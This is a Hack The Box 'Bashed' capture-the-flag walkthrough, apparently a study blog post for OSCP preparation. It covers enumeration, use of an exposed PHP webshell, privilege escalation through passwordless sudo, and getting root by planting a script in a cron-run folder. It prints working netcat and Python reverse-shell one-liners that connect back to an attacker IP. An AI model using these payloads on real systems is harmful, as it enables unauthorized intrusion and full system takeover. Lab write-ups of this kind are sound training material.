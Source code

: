 ```yaml
---
title: "Hack The Box - Bashed"
date: 2020-01-21
tags: [oscp, htb, linux]
collection: oscp-htp-prep
published: true
layout: single
headline: "Custom webshell and bash terminal"
picture: /assets/htb-bashed/machine_info.png
---
```


- [Machine Info](#machine-info)
- [Enumeration](#enumeration)
- [Initial Shell](#initial-shell)
  - [Enumerate with web shell](#enumerate-with-web-shell)
- [Privlege Escalation](#privlege-escalation)
  - [Sudoers file](#sudoers-file)
  - [Upgrading the shell](#upgrading-the-shell)
  - [Upgrading the shell (again!)](#upgrading-the-shell-again)
  - [Poking the scripts folder](#poking-the-scripts-folder)
  - [Adding our own exploit](#adding-our-own-exploit)

---

## Machine Info

![](/assets/htb-bashed/machine_info.png)

## Enumeration

Nmap scans show only port 80 is open, running Apache 2.4.18 for Ubuntu.

```
Nmap scan report for 10.10.10.68
Host is up, received user-set (0.050s latency).
Scanned at 2020-01-20 23:22:13 EST for 51s
Not shown: 65534 closed ports
Reason: 65534 resets
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 6AA5034A553DFA77C3B2C7B4C26CF870
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
```

The home page talks about a PHP webshell called `bashed` that the owner created, on this very site. Further investigation with Gobuster shows the below directories.

```
/about.html (Status: 200) [Size: 8190]
/config.php (Status: 200) [Size: 0]
/contact.html (Status: 200) [Size: 7802]
/css (Status: 301) [Size: 308]
/dev (Status: 301) [Size: 308]
/fonts (Status: 301) [Size: 310]
/images (Status: 301) [Size: 311]
/index.html (Status: 200) [Size: 7742]
/index.html (Status: 200) [Size: 7742]
/js (Status: 301) [Size: 307]
/php (Status: 301) [Size: 308]
/single.html (Status: 200) [Size: 7476]
/uploads (Status: 301) [Size: 312]
```

---

## Initial Shell

### Enumerate with web shell

Navigating to the `/dev` direcotry, it brings us to a directory listing, which includes a copy of `phpbash.php`. Clicking on `phpbash.php` immediatly places us into the `bashed` webshell mentioned on the homepage. With the `id` and `whoami` commands, we can see that we're running as `www-data`.

![](/assets/htb-bashed/phpbash_initialshell.png)

Some further poking with `uname -a` and `cat /etc/issue` shows that we're on a Ubuntu 16.04 system, running kernel version 4.4.0.

![](/assets/htb-bashed/wwwdata_enum_version.png)

We can confirm with `which nc` that netcat is already installed, which will help with any reverse shells going forward. We can also see a list of user directories with `ls -la /home`.

![](/assets/htb-bashed/wwwdata_nc_homedirs.png)

Besides the obvious `arrexel` username that we assumed from the homepage, there appears to be another user called `scriptmanager`. Both directories look to be readable by `www-data`. Looking in the `/home/scriptmanager` directory shows it's empty, and none of the files are readbale by our current user. We can however navigate to `/home/arrexel` and read `user.txt`.

![](/assets/htb-bashed/user_proof.png)

---

## Privlege Escalation

### Sudoers file

At this point, it makes sense to check if maybe `www-data` has more permissions then it seems. We can use `sudo -l` to see if there are any entires in the sudoers file, which might allow us access as a different user.

![](/assets/htb-bashed/wwwdata_sudoers.png)

Looks like `www-data` can use `sudo` to run any command as `scriptmanager` with no password needed.

### Upgrading the shell

When we try to run anything as `sudo` however, we get a message that *no tty present*. This is common in webshells. It also means it's time to upgrade our shell with netcat.

We first need to start a listener on our machine with `nc -lvnp 7500`. Once that's setup, we can run `/bin/sh | nc 10.10.14.12 7500` on the webshell to kick off the reverse shell.

> NOTE: Although `nc` is installed, it's the OpenBSD version, which does not include the `-e` option to execute a program on conneciton. Instead, we have to pipe `/bin/sh` into the `nc ` command to get the shell.

![](/assets/htb-bashed/revshell_failed.png)

Looks like this is very unstable, and dies right away. Let's try a Python reverse shell with the below command. Don't forget to restart your `nc` listener as well.

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.12",7500));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![](/assets/htb-bashed/python_revshell.png)

It works! Now we have to upgrade the shell to properly run the `sudo` commands we need. We can upgrade to a good `bash` shell with `python -c 'import pty;pty.spawn("/bin/bash")'`. Once that shell is spawned, we need to issue some commands to get a good TTY shell.

```shell
CTRL-Z # Sends the netcat session to the background
stty raw -echo # Properly sets terminal to pass CTRL-* commands to the netcat session
fg # Brings the netcat sesison back up
```

![](/assets/htb-bashed/upgraded_python_shell.png)

### Upgrading the shell (again!)

Now that we have access to a TTY shell, we can confirm that using `sudo -u scriptmanager` before a command will run it as `scriptmanager` without the need for a password. HOwever, this can get tiresome really fast. To bypass this, we can simply run `sudo -u scriptmanager /bin/bash`, which will open a `bash` shell as `scriptmanager`.

### Poking the scripts folder

Now that we're finally in a solid shell as `scriptmanager`, we can go poking around.

Running `ls -la /` shows a directory called `/scripts` at the drive root, and it's owned by `scriptmanager`.

![](/assets/htb-bashed/scripts_directory.png)

Inside `/scripts` are two files, `test.py` and `test.txt`. When we read `test.py`, we can see that it simply reads the content of `test.txt`.

![](/assets/htb-bashed/scripts_dir_contents.png)

We can modify the file to test it out with a `ping` back to our machine.

```shell
echo "import os" >> test.py
echo "ip = '10.10.14.12'" >> test.py
echo "command = os.system('ping -c 5 ' + ip)" >> test.py
```

This adds the lines to the existing `test.py` scirpt. We can see the new file below:

```shell
scriptmanager@bashed:/scripts$ cat test.py
cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
import os
ip = '10.10.14.12'
command = os.system('ping -c 5 ' + ip)
```

When we run the script with `python test.py`, we can see the pings going thorugh. We can test this on our end with a `tcpdump` listener using `tcpdump -i tun0 icmp`.

![](/assets/htb-bashed/tcpdump_initial.png)

### Adding our own exploit

In the process of testing, I noticed immediatly that the 5 pings from the `test.py` script were followed up by another 5 pings within the time it took me to take a screenshot. This leads me to beleive that there must be a cronjob running to execute scripts in the `/scripts` folder. If this is the case, then we have our path to `root`.

We can make a simple python script that will initiate a reverse shell when run, using the below command:

```shell
echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.12\",7700));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);" > root_shell.py
```

We setup the listener with `nc -lvnp 7700` and wait. Sure enough, we get a shell back after a short while.

![](/assets/htb-bashed/root_shell.png)

We got `root`! Let's grab the flag.

![](/assets/htb-bashed/root_proof.png)

When we check the `cron` list for `root`, we can see that it was in fact running every `*.py` script in `/scripts`.

![](/assets/htb-bashed/root_cron.png)
